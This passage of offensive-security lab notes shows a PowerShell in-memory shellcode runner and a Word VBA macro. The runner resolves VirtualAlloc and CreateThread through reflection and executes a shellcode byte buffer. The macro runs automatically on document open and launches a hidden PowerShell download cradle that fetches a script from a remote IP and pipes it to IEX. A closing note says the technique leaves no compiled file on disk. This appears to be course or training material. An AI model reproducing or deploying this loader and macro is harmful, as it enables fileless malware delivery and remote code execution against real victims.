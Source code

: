 ```
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

VBA code
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Result
```
Process Monitor reveals that no .cs file was written to the file system and subsequently compiled as given
```
![alt text](image-6.png)